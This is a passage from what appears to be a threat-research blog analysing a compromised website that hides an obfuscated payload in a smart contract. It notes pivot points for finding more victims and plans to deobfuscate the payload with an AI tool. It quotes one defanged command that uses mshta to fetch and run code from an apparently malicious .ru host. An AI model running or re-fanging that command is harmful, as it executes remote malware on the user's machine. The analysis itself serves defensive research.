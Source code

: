 ![alt text](/images/fetch_bnb.PNG)

I was half hoping for ``mshta hXXps://gb[.]kaq51[.]ru/m54tdry4`` but it is never that easy.

What we have is the data stored in the smart contract, obfuscated.

We also have some interesting pivot points such as the "contract creator", perhaps we have a look into that later to see if we can discover some more compromised websites. Hypothetically, if we know the obfuscation method and smart contract addresses, we should be able to google dork it. I will return to this. This could be epic.

Anyhow, we have our payload, but it's obfuscated. But we know the obfuscation method. We observed that above during the analysis on the .JS found on the page. 

So let's apply the same logic that we observed to the data in the smart contract, using of course, Lord GPT.
